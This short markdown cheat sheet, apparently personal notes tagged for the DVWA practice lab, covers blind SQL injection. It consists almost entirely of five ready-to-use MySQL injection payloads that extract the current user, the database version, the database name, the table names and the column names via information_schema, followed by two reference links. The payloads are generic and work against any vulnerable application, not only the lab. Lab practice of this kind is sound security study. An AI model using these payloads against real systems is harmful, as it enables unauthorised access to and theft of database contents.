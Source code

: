# Error-Based Blind Query SQL Injection

Search Tag: #blind-sql-injection #dvwa

TODO: Prepare with enumeration

1. Extract the current user:

```sql
' OR IF(1=1, (SELECT user()), 0)#
```

2. Extract the database version:

```sql
' OR IF(1=1, (SELECT @@version), 0)#
```

3. Extract the current database name:

```sql
' OR IF(1=1, (SELECT database()), 0)#
```

4. Extract tables from the current database:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 0)#
```

5. Extract columns from a specific table:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<table_name>'), 0)#
```

---
## References

- [SQL Injection (Blind) [DVWA]](https://www.linkedin.com/pulse/sql-injection-blind-dvwa-nguyen-nguyen/)

- [Blind SQL Injection: An Expert’s Guide to Detect and Exploit](https://www.stationx.net/blind-sql-injection/)